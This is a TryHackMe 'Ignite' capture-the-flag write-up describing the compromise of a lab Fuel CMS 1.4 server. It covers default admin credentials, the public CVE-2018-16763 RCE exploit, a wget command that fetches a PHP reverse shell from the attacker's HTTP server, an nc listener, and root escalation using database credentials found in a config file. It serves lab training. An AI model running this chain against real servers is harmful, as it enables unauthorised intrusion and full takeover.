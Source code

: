 # Ignite
![tryhackme_logo](https://user-images.githubusercontent.com/83867734/185771149-cb02c6f2-8476-4ab3-a626-cca8db0a08bf.png)

Difficulty: **Easy**

Compromise the machine and read the user.txt and root.txt.

Tags
--
* Fuel CMS
* Reverse Shell
* Fuel CMS CVE-2018-16763
* database config file

Tools used
--
* nmap
* wget
* nc

Machines
--
Attacker:
* Name: attacker_machine
* Operating System: Athena OS
* IP Address: 10.18.98.39

Victim:
* Name: victim_machine
* IP Address: 10.10.40.228
* Other information must be gathered during the attack

Phase 1: Enumeration
--
sudo nmap -sS -sC -sV 10.10.40.228 -p- -T5 -vvv

<SNIP>
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-title: Welcome to FUEL CMS
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
<SNIP>
```
Phase 2: Foothold
--
File `robots.txt` contains `fuel` path. If we visit it, we go through a login page. Furthermore, in the home page of this web application, there is a direct link to this login page and the admin credentials. Let's access by `admin:admin`.

We land inside an admin dashboard. There are several sections with "Upload" function: Pages, Blocks, Navigation, Assets.

On all these sections, by giving a look to the page source code, we notice the only allowed extensions are:
```html
<input type="file" name="userfile" value="" id="userfile_upload" class="field_type_file multifile" accept="jpg,jpeg,jpe,png,gif,mov,mpeg,mp3,wav,aiff,pdf,css,zip,svg"  />
```
One step behind: we noticed the FUEL CMS version is 1.4. By searching on Internet, we can get the following exploit: https://github.com/noraj/fuelcms-rce

Run it, and we can get a Remote Command Execution. From here, let's try to get a reverse shell by running netcat on our attacker machine. By running several reverse shell commands (bash, python, nc, PHP), we don't get any luck. So, the only way in mind should be found a way to upload a reverse shell file directly on the web server. For doing this, we should find a way to transfer files among machines. `curl` and `python` commands don't exist because by running `--version` argument, our exploit script does return nothing. But we noted `wget` exists.

So, let's create an HTTP server on the attacker machine side and use `wget` for uploading the file. For first, on the attacker machine create a reverse shell file `rev.php` and paste your PHP code. Then, in the same folder, run:
```
python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
By our exploit script, run:
```
ruby exploit.rb http://10.10.40.228 'wget http://10.18.98.39:8000/rev.php'
```
After that, on the attacker machine run `nc -lvnp <PORT>` and by the browser visit `10.10.40.228/rev.php`. At this point we get the reverse shell on netcat. Let's give the following commands:
```
script /dev/null -c bash

cat home/www-data/flag.txt

6470e394cbf6dab6a91682cc8585059b
```
Trying to search for some interesting data inside the web server, we can find an interesting file `/var/www/html/fuel/application/config/database.php`:
```php
<SNIP>
$db['default'] = array(
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => 'mememe',
	'database' => 'fuel_schema',
	'dbdriver' => 'mysqli',
	'dbprefix' => '',
	'pconnect' => FALSE,
	'db_debug' => (ENVIRONMENT !== 'production'),
	'cache_on' => FALSE,
	'cachedir' => '',
	'char_set' => 'utf8',
	'dbcollat' => 'utf8_general_ci',
	'swap_pre' => '',
	'encrypt' => FALSE,
	'compress' => FALSE,
	'stricton' => FALSE,
	'failover' => array(),
	'save_queries' => TRUE
);
<SNIP>
```
We can note root credentials. If we run `su root` and type `mememe` as password, we get root access and we can retrieve the root flag in `/root/root.txt` file.

